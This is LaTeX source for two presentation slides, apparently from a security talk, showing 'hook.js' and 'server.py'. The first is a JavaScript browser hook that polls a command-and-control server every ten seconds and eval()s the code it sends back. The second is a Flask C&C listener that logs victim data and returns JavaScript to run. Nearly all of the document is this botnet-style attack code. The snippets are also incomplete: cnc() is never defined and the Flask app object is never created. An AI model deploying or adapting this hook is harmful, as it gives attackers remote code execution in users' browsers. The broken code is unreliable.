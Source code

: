 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{Hooking the Browser}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        function sleep(ms) {
	      try {
		    return new Promise(resolve => setTimeout(resolve, ms));
	      } catch(error){
		    return false;
	      }
        }

        async function hook(){                   //Async hook to run in background in loop
          try {
            let data = {};                       //Any data you like here
            for (;;){
              cnc(data, function(responseText){
                eval(responseText);              //Execute the command sent back by CnC server
                return true;
              });
              await sleep(10000);                //Sleep for 10s
            }
          } catch(error){
            return false;
          }
        }
        
        hook();
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{The CnC Server}
  \begin{center}
    \begin{tcolorbox}[title=server.py,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        #!/usr/bin/env python
        
        import sys
        import json
        from flask import Flask
        from flask import request

        @app.route("/", methods=["POST"])
        def cnc_listener():
            try:
                data = request.json
                print(json.dumps(data, indent=4))
                if 'bot' in data:
                    return "console.log('1337 botnet dude')"
                return json.dumps(
                    data,
                    indent=4
                ), 200, {'Content-Type': 'application/json'}
            except Exception as e:
                return json.dumps(
                    {
                      'error': 'invalid request'
                    },
                    indent=4), 500, {'Content-Type': 'application/json'}
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
